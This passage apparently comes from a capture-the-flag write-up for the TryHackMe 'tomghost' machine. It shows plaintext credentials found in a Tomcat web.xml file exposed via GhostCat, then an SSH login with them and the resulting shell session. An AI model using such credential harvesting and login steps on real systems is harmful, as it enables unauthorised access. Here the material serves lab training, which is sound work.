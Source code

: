   &lt;display-name&gt;Welcome to Tomcat&lt;/display-name&gt;
  &lt;description&gt;
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  &lt;/description&gt;

&lt;/web-app&gt;
</code></pre>


<br>

**Use skyfuck** skyfuck:8730281lkjlkjdqlksalks

<br><br>

# 3 - Using skyfuck to obtain access to the targe: 

```
ssh skyfuck@tomghost.thm
```

### **username:** `skyfuck`
### **password:** `8730281lkjlkjdqlksalks`

<br>

result:  
<pre><code style="font-size: 12px; color: rgb(60, 175, 31);">
   The authenticity of host 'tomghost.thm (10.10.103.119)' can't be established.
   ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
   This key is not known by any other names.
   Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
   Warning: Permanently added 'tomghost.thm' (ED25519) to the list of known hosts.
   skyfuck@tomghost.thm's password: 
   Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

   * Documentation:  https://help.ubuntu.com
   * Management:     https://landscape.canonical.com
   * Support:        https://ubuntu.com/advantage


   The programs included with the Ubuntu system are free software;
   the exact distribution terms for each program are described in the
   individual files in /usr/share/doc/*/copyright.

   Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
   applicable law.

   skyfuck@ubuntu:~$ 
   skyfuck@ubuntu:~$ ls
   credential.pgp  tryhackme.asc
   skyfuck@ubuntu:~$ 
</code></pre>

<br><br>

